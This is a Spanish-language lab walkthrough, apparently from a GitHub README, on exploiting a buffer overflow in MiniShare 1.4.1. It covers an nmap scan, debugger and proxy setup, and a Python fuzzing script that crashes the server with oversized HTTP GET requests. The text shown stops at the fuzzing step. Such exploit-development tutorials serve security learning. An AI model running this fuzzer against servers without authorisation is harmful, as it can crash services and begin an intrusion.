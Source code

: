 # BUFFEROVERFLOW-MINISHARE-1.4.1
***
Se procedera a realizar un desdoblamiento de buffer con el software MINISHARE 1.4.1 habrimos una ventana emergente al lado de nuestro tilix para poder trabajar, usamos el siguiente comando, colacando la IP de la maquina vulnerable.
***
``` 
rdesktop " IP 192.168.a.b"  -u user -p paswword
```
****
### Screenshot
![inicio](https://user-images.githubusercontent.com/104048850/180593311-1796279a-4a4f-4ee8-8fae-baa47898a6e4.png)
Procedemos a realizar un escaneo de vulnerabilidades 
``` 
nmap 192.168.72.135 -sV

```
***
Podemos observar los puertos de la maquina vulnerable sin ejecutar el programa 
***
### Screenshot
![nmap](https://user-images.githubusercontent.com/104048850/180593535-955c4085-6369-4afb-b5e7-dd56e463c24f.png)
***
Ahora realizaremos el escaneo ejecutando el programa minishare usando la herramiento immunity debugger
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593763-736524cd-0f76-4ce6-9894-0780023678ad.png)

Para ver que comando vamos a usar, utilizaremos burpsuite y un proxy 
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593888-219158db-ad4b-454e-a6e5-2aa429d6c417.png)
***
Ahora  ejecutamos el siguinte script  para ver la capacidad del buffer 
> #!/usr/bin/python3.8
> # This is a Proof of concept about BufferOverflow vulnerability in MiniShare 1.4.1

> # Part 1 of proof of concept by Vry4n
> # This script is intended to discover the size of the buffer
import socket

FUZZ = ""

# While true increase the variable FUZZ by adding 100 "A" until the program crashes
while True:
    FUZZ += "A" * 100
    print("Fuzzing with {} bytes".format(len(FUZZ)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(("192.168.a,b", 80))
    # from a web proxy capturing the HTTP GET Request, we got this line "GET / HTTP/1.1" This is the vulnerable section
    s.send(b"GET " + FUZZ.encode() + b"HTTP/1.1\r\n\r\n")
    s.recv(1024)
    s.close()
